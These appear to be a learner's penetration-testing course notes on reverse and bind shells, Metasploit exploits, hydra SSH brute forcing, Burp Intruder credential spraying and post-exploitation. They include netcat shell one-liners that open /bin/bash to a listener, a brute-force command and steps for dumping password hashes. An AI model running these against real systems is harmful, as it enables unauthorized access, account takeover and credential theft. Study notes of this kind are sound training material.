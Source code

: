 reverse/bind shells

reverse: target connects to us (most common)
![Screen Shot 2022-03-05 at 17.20.40.png](../../../_resources/Screen Shot 2022-03-05 at 17.20.40.png)

bind: we open a port on the target, then we connect to it
(mostly on external assesments, behind vms)
![Screen Shot 2022-03-05 at 17.22.20.png](../../../_resources/Screen Shot 2022-03-05 at 17.22.20.png)

example reverse
target: nc 192.168.129.129 4444 -e /bin/bash
attacker: nc -nvlp 4444

example bind
target: nc -nlvp 444 -e /bin/bash
attacker: nc 192.168.129.129 444

on both: first listen, then connect

* * *

staged/non-staged payloads
![Screen Shot 2022-03-05 at 17.30.17.png](../../../_resources/Screen Shot 2022-03-05 at 17.30.17.png)

try combinations of staged/non-staged and bind/reverse

* * *

msfconsole > search trans2open
show targets
do not use port 4444
change payloads, try a few

manual download exploit
alternative using "OpenFuck" to exploit Apache/mod_ssl on port 80

* * *

brute force attacks
test password strength?
default passwords?
blue team sees us brute forcing?

sometimes you want to get caught, be loud

hydra: brute force tool
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.129.130:22 -t 4 -V

can do the same with metasploit

* * *

credential spraying and password stuffing
most common on external assesments (weak credentials > exploit in the wild)
ask before you attack so you don't lock out users (attempts)

using breached credentials in hope of account takeover
![Screen Shot 2022-03-05 at 20.13.49.png](../../../_resources/Screen Shot 2022-03-05 at 20.13.49.png)

weblogin attacks: burpsuite
catch a login request > send to intruder
positions > add $ to select the parameters in the request
pitchfork attack allows many parameters (user/pwd)
go to payloads > assign values (copy/paste) to each payload set
start > check for change in status or length of response, or full response
can go to options and grep whatever text is failure/success/etc

password spraying: using a single password on many known to work users
use sniper attack on intruder

* * *

post-exploitation

find out my ip
see if we have 2(more) NICs, and pivot
see to whom the machine is talking to

cat psw and shadow files / hashdump (meterpreter)
crack passwords
enumerate files
see user folders for more juicy stuff